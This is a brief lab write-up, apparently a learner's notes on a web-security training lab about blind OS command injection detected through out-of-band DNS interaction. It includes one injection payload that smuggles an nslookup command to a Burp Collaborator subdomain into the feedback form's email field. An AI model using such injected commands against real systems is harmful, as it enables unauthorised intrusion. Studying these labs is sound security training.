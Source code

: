 `Burp Collabolator not included in Burp Community`
Title: Blind OS command injection with out-of-band interaction
Level: PRACTITIONER
Desc:  This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

# Walkthrough: 
`email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`


I guess, that I could do the same in subject as in recent labs.
